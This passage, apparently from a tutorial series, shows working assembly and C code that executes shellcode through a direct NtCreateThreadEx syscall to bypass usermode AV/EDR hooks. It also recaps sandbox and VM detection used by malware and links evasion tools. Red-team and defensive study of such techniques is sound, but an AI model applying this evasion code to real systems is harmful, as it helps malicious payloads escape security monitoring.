First we need to define the `NtCreateThreadEx` in assembly and add `.asm` file to the project. Also make sure that Microsoft Macro Assembler files are included in "Build Customizations" options of the project.

```nasm
.code
	NtCreateThreadEx PROC
		mov r10, rcx
		mov eax, 00bdh
		syscall
		ret
	NtCreateThreadEx ENDP
end
```

Then declare external method in the source code:

```c
EXTERN_C NTSTATUS(NTAPI NtCreateThreadEx)
(
	OUT PHANDLE hThread,
	IN ACCESS_MASK DesiredAccess,
	IN PVOID ObjectAttributes,
	IN HANDLE ProcessHandle,
	IN PTHREAD_START_ROUTINE lpStartAddress,
	IN PVOID lpParameter,
	IN ULONG Flags,
	IN SIZE_T StackZeroBits,
	IN SIZE_T SizeOfStackCommit,
	IN SIZE_T SizeOfStackReserve,
	OUT PVOID AttributeList
);
```

Last thing to do is to call the function:

```c
HANDLE hThread;
HANDLE hProcess = GetCurrentProcess();
NtCreateThreadEx(&hThread, GENERIC_ALL, NULL, hProcess, (PTHREAD_START_ROUTINE)shellcode_exec, NULL, FALSE, NULL, NULL, NULL, NULL);
WaitForSingleObject(hThread, INFINITE);
```

That way we have bypassed any hooks on usermode WinAPI thread creation functions. However we have hardcoded the syscall ID (`0xBD`) which is version-specific. To support different Windows versions we would need to have all syscalls IDs and dynamically check system version. That's where [`SysWhispers`](https://github.com/jthuraisamy/SysWhispers/) tool comes in handy. We can use this great tool to generate necessary functions and types definitions in C and OS version checks and syscall definitions in assembly.

## Summary
We went through popular methods for detecting sandboxes, virtual machines and automated analysis used by malware.

In the next article we will take a look at multiple debugger detection methods and talk about how to make debugging of our compiled code harder.

### Links

Be sure to check these great resources on the topic:

[https://github.com/Arvanaghi/CheckPlease](https://github.com/Arvanaghi/CheckPlease)

[https://github.com/LordNoteworthy/al-khaser](https://github.com/LordNoteworthy/al-khaser)

[https://github.com/a0rtega/pafish](https://github.com/a0rtega/pafish)

[https://github.com/CheckPointSW/InviZzzible](https://github.com/CheckPointSW/InviZzzible)

[https://evasions.checkpoint.com/](https://evasions.checkpoint.com/)

[https://github.com/hfiref0x/VBoxHardenedLoader](https://github.com/hfiref0x/VBoxHardenedLoader)

[https://outflank.nl/blog/2019/06/19/red-team-tactics-combining-direct-system-calls-and-srdi-to-bypass-av-edr/](https://outflank.nl/blog/2019/06/19/red-team-tactics-combining-direct-system-calls-and-srdi-to-bypass-av-edr/)

[https://github.com/jthuraisamy/SysWhispers](https://github.com/jthuraisamy/SysWhispers)

[https://github.com/j00ru/windows-syscalls](https://github.com/j00ru/windows-syscalls)

[https://ired.team/offensive-security/defense-evasion/using-syscalls-directly-from-visual-studio-to-bypass-avs-edrs](https://ired.team/offensive-security/defense-evasion/using-syscalls-directly-from-visual-studio-to-bypass-avs-edrs)
